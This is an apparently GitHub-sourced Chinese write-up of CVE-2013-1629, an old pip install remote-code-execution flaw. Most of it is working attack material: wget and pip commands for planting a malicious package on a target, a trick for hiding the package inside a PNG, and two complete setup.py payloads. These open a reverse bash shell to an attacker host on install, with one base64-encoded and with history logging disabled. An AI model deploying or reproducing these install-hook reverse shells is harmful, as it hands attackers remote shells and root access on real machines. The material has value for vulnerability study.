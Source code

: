 # Python pip install RCE 漏洞 CVE-2013-1629

## 漏洞描述

当通过 HTTP 从 Pypi 存储库检索包时，不会检查包内容的完整性。利用这个缺陷，攻击者可以通过 `pip install` 来执行代码。

参考阅读：

- https://github.com/0x00-0x00/FakePip
- https://www.sourceclear.com/vulnerability-database/security/remote-code-execution-rce-using-pip/python/sid-2098

## 影响版本

```
pip < 1.3
```

## 漏洞复现

### 方式1 FakePip

将 [setup.py](#漏洞POC) 文件下载到远程目标：

```
$ wget http://your-vps-ip/setup.py
```

在 VPS 上监听端口，在远程目标上执行命令：

```
$ mkdir fakepip
$ mv setup.py fakepip/
$ cd fakepip
# sudo /usr/bin/pip install . --upgrade --force-reinstall
```

成功获取反弹 Shell。

### 方式2 图片马

将 [setup.py](#漏洞POC) 文件放在文件夹中并压缩命名为，选择一张图片 test.png，制作图片马：

```
$ copy /b test.png + pic.zip pic.png
```

在 VPS 上监听端口，将图片上传至公网图床，复制链接，在远程目标上执行命令：

```
$ pip install " https://<your-img-link>"
```

也将图片可以上传到 VPS，在远程目标上执行命令：

```
$ pip3 install "http://192"."168"."xx"."xxx/pic.png"
```

## 漏洞POC

方式1 setup.py

```python
from setuptools import setup
from setuptools.command.install import install
import base64
import os


class CustomInstall(install):
  def run(self):
    install.run(self)
    LHOST = 'localhost'  # change this
    LPORT = 13372
    
    reverse_shell = 'python -c "import os; import pty; import socket; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\'{LHOST}\', {LPORT})); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); os.putenv(\'HISTFILE\', \'/dev/null\'); pty.spawn(\'/bin/bash\'); s.close();"'.format(LHOST=LHOST,LPORT=LPORT)
    encoded = base64.b64encode(reverse_shell)
    os.system('echo %s|base64 -d|bash' % encoded)


setup(name='FakePip',
      version='0.0.1',
      description='This will exploit a sudoer able to /usr/bin/pip install *',
      zip_safe=False,
      cmdclass={'install': CustomInstall})
```

方式2 setup.py

```python
from setuptools import setup
import socket,subprocess,os
def run():
  import socket, time,pty, os
  host='{LHOST}'
  port='{LPORT}'
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(10)
  s.connect((host,port))
  os.dup2(s.fileno(),0)
  os.dup2(s.fileno(),1)
  os.dup2(s.fileno(),2)
  os.putenv("HISTFILE",'/dev/null')
  pty.spawn("/bin/bash")
  s.close()
run()

setup(name="FakePip", version="1.0")
```

